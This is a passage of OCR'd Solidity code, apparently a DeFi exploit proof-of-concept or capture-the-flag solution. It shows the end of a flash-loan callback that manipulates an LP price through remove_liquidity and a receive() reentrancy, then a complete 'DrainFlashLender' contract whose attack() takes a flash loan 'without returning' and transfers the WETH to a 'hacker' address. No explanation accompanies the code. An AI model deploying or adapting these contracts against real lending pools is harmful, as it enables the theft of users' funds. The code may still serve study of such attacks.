 ```solidity
			amounts[1] = 0;
			flagHandleReceive = true; // get ready for the `receive()`
			amounts = swapPoolEthWeth.remove_liquidity(lp, amounts);
		}

		// executing `receive()` ...

		{ // When it goes here, lp price gets back to low,
			// sell the metaToken to get more lp
			uint meta = metaToken.balanceOf(address(this));
			metaToken.burn(meta);
		}

		{ // remove liquidity -> eth/weth

			uint lp = lpToken.balanceOf(address(this));
			uint[2] memory amounts;
			amounts[0] = 0;
			amounts[1] = 0;
			amounts = swapPoolEthWeth.remove_liquidity(lp, amounts);
		}

		// return funds
		{
			weth.deposit{value: address(this).balance}(); // all eth -> weth
		}

		return keccak256("ERC3156FlashBorrower.onFlashLoan");
	}
}

contract DrainFlashLender is IERC3156FlashBorrower {
    ILendingPool  public wethLendingPool;
    IWETH         public weth;

	address hacker;

	constructor(
		ILendingPool  a1,
		IWETH         a2
	) payable {
		hacker          = msg.sender;

		wethLendingPool = a1;
		weth            = a2;
	}

	function attack() external {

		// flashloan weth without returning
		{
			uint borrow = 0xfeb9f34380a3065e3fae7cd0e028c1978feb9f34380a3065e3fae7cd0e028c1a;
			wethLendingPool.flashLoan(
				IERC3156FlashBorrower(this), address(weth), borrow, "");
		}

		// transfer weth back to hacker
		{
			weth.transfer(hacker, weth.balanceOf(address(this)));
		}
	}

```